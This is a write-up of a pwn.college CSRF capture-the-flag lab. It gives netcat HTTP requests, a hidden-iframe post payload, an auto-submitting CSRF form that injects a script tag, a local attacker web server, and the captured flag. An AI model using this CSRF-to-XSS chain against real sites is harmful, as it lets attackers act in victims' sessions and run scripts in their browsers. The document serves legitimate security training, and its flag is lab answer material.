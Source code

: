 # CSRF-3 Write-up — pwn.college

## 🔍 Challenge Overview

This challenge simulates a vulnerable blogging platform where users can:

- Log in
- Draft and publish posts
- View others’ published content

The admin logs into the platform and then automatically visits attacker-controlled pages via `/challenge/victim`.

Our goal is to **perform a CSRF attack** to make the admin execute an **XSS payload** by visiting our crafted post. Once the script runs in the admin's browser, the challenge system will trigger an alert, revealing the flag.

---

## 🖥️ Server Behavior Summary

Key endpoints:

- `/login`: Logs users in using form-based credentials
- `/draft`: Allows users to submit post drafts
- `/`: Homepage displaying UI depending on session status
- Admin auto-visits attacker pages via `/challenge/victim`
- **No CSRF protection is implemented**

---

## ✅ Exploit Steps

### 1. Log in as the `hacker` user

```bash
printf "POST /login HTTP/1.0\r\nHost:challenge.localhost\r\nContent-Type:application/x-www-form-urlencoded\r\nContent-Length:29\r\n\r\nusername=hacker&password=1337" | nc challenge.localhost 80
```
You'll receive a response with:
```
Set-Cookie: auth=hacker|1337; Path=/
```
This confirms you're logged in.

### 2. Create a malicious iframe post
```bash
PAYLOAD="content=%3Ciframe%20src%3D%22http%3A//hacker.localhost%3A1337/%22%20width%3D%220%22%20height%3D%220%22%3E%3C/iframe%3E&publish=on"
LENGTH=$(echo -n "$PAYLOAD" | wc -c)
```
Then send it using netcat:
```bash
echo -e "POST /draft HTTP/1.0\r
Host: challenge.localhost\r
Cookie: auth=hacker|1337\r
Content-Type: application/x-www-form-urlencoded\r
Content-Length: $LENGTH\r
\r
$PAYLOAD" | nc challenge.localhost 80
```
This saves and publishes a post with an embedded iframe pointing to your server.

### 3. Create a CSRF page on your server
Create an index.html file containing the CSRF attack:
```bash
<!DOCTYPE html>
<html>
  <body onload="document.forms[0].submit()">
    <form action="http://challenge.localhost/ephemeral" method="GET">
      <input type="hidden" name="msg" value="<script>alert('PWNED')</script>">
    </form>
  </body>
</html>
```
This page uses a form that auto-submits a GET request to the vulnerable endpoint /ephemeral, injecting a script via the msg parameter.

### 4. Host the malicious page
Start a simple HTTP server on port 1337 to serve your CSRF page:
```
python3 -m http.server 1337
```
Output:
```bash
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```

### 5. Trigger the admin to visit your post
Run the automated victim visit:
```bash
/challenge/victim
```
You'll see output like:
```bash
Visiting http://challenge.localhost:80/
Logging in as admin...
Logged in!
Visiting the attacker's website (http://hacker.localhost:1337/)...
Alert triggered! Your reward:
pwn.college{IhZEUgLW8CZHM_MibmYqDqZzr0O.QXzgTN2wSM0IzMyEzW}
```

---
## Final Result
The admin visits the malicious iframe → the iframe loads your CSRF page → the form is submitted → the JavaScript executes → XSS alert is triggered → flag is captured.
### Flag
```
pwn.college{IhZEUgLW8CZHM_MibmYqDqZzr0O.QXzgTN2wSM0IzMyEzW}
```
---

